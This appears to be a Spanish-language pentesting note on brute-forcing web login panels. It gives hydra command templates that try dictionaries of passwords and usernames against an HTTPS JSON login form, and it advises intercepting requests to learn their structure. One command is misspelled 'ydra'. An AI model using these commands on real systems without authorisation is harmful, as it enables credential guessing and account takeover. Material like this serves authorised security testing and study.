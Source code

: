 
---

## Ataques a Paneles de Login:
Para realizar ataques a paneles de Login necesitaremos un diccionario apropiado para mejorar el vector de ataque.

```bash
# Parametros principales:

hydra -l <username> -P <rutaDiccionario> <IP> https-post-form "/login:{\"username\":\"^USER^\",\"password\":\"^PASS^\"}:F=<MensajeError>" -H "Content-Type: application/json"

```



**Aspectos a considerar:**
- En caso no tengamos aun el username deberemos configurar una ruta a un diccionario de nombres de usuario y el parametro *-L*.

	```bash
	ydra -L <rutaListaUsuarios> -P <rutaDiccionario> <IP> https-post-form "/login:{\"username\":\"^USER^\",\"password\":\"^PASS^\"}:F=<MensajeError>" -H "Content-Type: application/json"
	```


- En caso tengamos ya el nombre de usuario:
	```bash
	# Parametros principales

	hydra -l <username> -P <rutaDiccionario> <IP> https-post-form "/login:{\"username\":\"^USER^\",\"password\":\"^PASS^\"}:F=<MensajeError>" -H "Content-Type: application/json"
	```

## Aspectos variables:

- Puede pasar que alguna web envie de diferente forma la autenticacion, aunque normalmente siempre sera enviada por el Body del paquete.

- Por otro lado si no conocemos la estructura del Request, podriamos interceptar estos paquetes, verificar la estructura de envio y a partir de ahi realizar ataques.
